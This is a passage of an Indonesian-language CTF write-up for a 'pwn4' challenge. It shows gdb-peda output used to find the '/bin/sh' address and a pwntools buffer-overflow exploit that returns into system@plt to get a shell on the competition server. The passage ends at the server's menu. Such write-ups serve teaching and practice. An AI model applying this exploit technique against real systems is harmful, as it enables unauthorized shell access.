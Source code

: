 ```
selanjutnya kita akan menuliskan shell kedalam payload kita, namun karena ```ebp-0x1c``` adalah variabel kita tidak dapat memasukkan string kedalamnya melainkan alamat dari process shell tersebut. Untuk menemukan process tersebut kita dapat cari dengan ```info proc mapping``` lalu cari ```/bin/sh``` :
```
gdb-peda$ b main
Breakpoint 1 at 0x8048791
gdb-peda$ r
Starting program: /home/blaccmail/Downloads/pwn4 
gdb-peda$ info proc mapping
process 2995
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/blaccmail/Downloads/pwn4
	 0x8049000  0x804a000     0x1000        0x0 /home/blaccmail/Downloads/pwn4
	 0x804a000  0x804b000     0x1000     0x1000 /home/blaccmail/Downloads/pwn4
	0xf7dc4000 0xf7f91000   0x1cd000        0x0 /lib/i386-linux-gnu/libc-2.26.so
	0xf7f91000 0xf7f92000     0x1000   0x1cd000 /lib/i386-linux-gnu/libc-2.26.so
	0xf7f92000 0xf7f94000     0x2000   0x1cd000 /lib/i386-linux-gnu/libc-2.26.so
	0xf7f94000 0xf7f95000     0x1000   0x1cf000 /lib/i386-linux-gnu/libc-2.26.so
	0xf7f95000 0xf7f98000     0x3000        0x0 
	0xf7fd0000 0xf7fd2000     0x2000        0x0 
	0xf7fd2000 0xf7fd5000     0x3000        0x0 [vvar]
	0xf7fd5000 0xf7fd7000     0x2000        0x0 [vdso]
	0xf7fd7000 0xf7ffc000    0x25000        0x0 /lib/i386-linux-gnu/ld-2.26.so
	0xf7ffc000 0xf7ffd000     0x1000    0x24000 /lib/i386-linux-gnu/ld-2.26.so
	0xf7ffd000 0xf7ffe000     0x1000    0x25000 /lib/i386-linux-gnu/ld-2.26.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
gdb-peda$ find '/bin/sh' 0x8048000 0x804b000
Searching for '/bin/sh' in range: 0x8048000 - 0x804b000
Found 1 results, display max 1 items:
pwn4 : 0x804a038 ("/bin/sh") 
```
Alamat dari proses '/bin/sh' (shell) adalah 0x804a038

dari sini kita bisa buat exploitnya dengan pwntools :
```
from pwn import *

p = remote("pwn.ctf.tamu.edu", 4324)

print p.recv(2048)

syspltaddr = p32(0x8048430)
shelladdr = p32(0x804a038)

payload = "a"*32 + syspltaddr + "a"*4 + shelladdr

p.send(payload)
p.interactive()
```

FLOW : Jebol ebx-0x1c -> (masuk eip)Rewrite address ke system@plt -> menuhin buffer -> return/panggil shell
sekarang kita tes ke server soal:
```
blaccmail@localhost:~/Downloads$ python pwn4_exploit.py 
[+] Opening connection to pwn.ctf.tamu.edu on port 4324: Done
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
